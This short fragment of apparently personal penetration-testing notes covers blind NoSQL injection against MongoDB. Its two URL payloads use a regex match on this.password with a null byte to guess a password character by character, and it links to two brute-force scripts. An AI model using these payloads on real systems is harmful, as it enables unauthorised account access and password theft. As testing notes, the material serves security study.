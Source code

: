 #### Use regex to bruteforce
`?search=admin' %26%26 this.password.match(/d/)%00`

`?search=admin' %26%26 this.password.match(/^dc.$/)%00`

examples:
[mongodb_url_brutforce.py](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/mongodb_url_brutforce.py)
[brute_mongoDB_nosqli](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

